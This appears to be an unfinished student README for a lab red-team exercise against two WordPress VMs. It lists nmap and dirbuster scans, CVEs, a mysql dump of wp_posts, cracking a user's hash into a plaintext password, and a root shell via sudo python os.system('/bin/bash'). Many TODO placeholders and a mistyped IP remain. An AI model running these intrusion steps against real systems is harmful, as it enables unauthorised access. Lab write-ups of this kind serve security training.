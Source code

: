# WordPressRedTeam_BlueTeam

The network depicted below was used to test exploits and determine vulnerabilities within the WordPress servers.
![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/Topology%20Final%20Project.png)
Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

# Exposed Services

The nmap scan outlined below identifies the potential points of entry:

nmap $ nmap -sC -sV 192.168.1.110

Target 1:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/nmap%20vm1.png)

nmap $ nmap -sC -sV 192.168.1.115

Target 2:
- Port 22 / SSH
- Port 80 / http
- Port 111 / rpcbind

![TODO: Update the path with the name of your diagram](https://github.com/joshgarlandreese/WordPressRedTeam_BlueTeam/blob/master/NMAP%20final%20Project.png)

# Critical Vulnerabilities

The following vulnerabilities were identified on each target:

Target 1
- CVE-2019-12215 Full Path Disclosure (192.268.1.110/service.html)
- CVE-2019-15653 html password disclosure - The password hash is viewable in plaintext (192.168.1.110/service.html)
- Wpscan exposed username which allowed brute force of password information.  User access to the wp-config.php file via nano.  This exposed the root user and password.

Target 2
- CVE-2019-12215 Full Path Disclosure (192.168.1.115/vendor/PATH)
- CVE-2015-8476 Php mailer (192.168.1.115/vendor/PHPMailerAutoload.php)

# Exploitation

The Red Team was able to penetrate both Target 1 and Target 2 and retrieve the following confidential data:

Target 1
- flag1.txt: 9bbcb33e11b80be759c4e844862482
Exploit Used: 
! [TODO: Identify the exploit used.]
! [TODO: Include the command run.]
- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.110
- flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
![TODO:] exposed root password and then uncovered hashes via mysql
![TODO:] mysql -u root -p wordpress -> show databases; -> select * from wp_posts;
- flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
- john hash.txt to translate steven’s hash into password “pink84” -> logged in with steven’s credentials and then ran bin/bash command  to gain root
- ssh steven@192.168.1.110 -> sudo /usr/bin/python -> import os -> os.system(‘ /bin/bash’) -> ls -> cat flag4.txt

Target 2
- flag1.txt: a2c1f66d2b8051bd3a5874b5b6e43e21
Exploit Used 
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/vendor/PATH)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
- flag2.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.
- flag3.txt:  a0f568aa9de277887f377887f37730d71520d9b
Exploit Used
![TODO:] dirbuster - exposed directory path (flag was discovered at 192.168.1.115/wordpress/wp-content/uploads/2018/11/)
![TODO:] dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -u http://192.168.1.115
flag4.txt: 
Exploit Used
![TODO:] Identify the exploit used.
![TODO:] Include the command run.

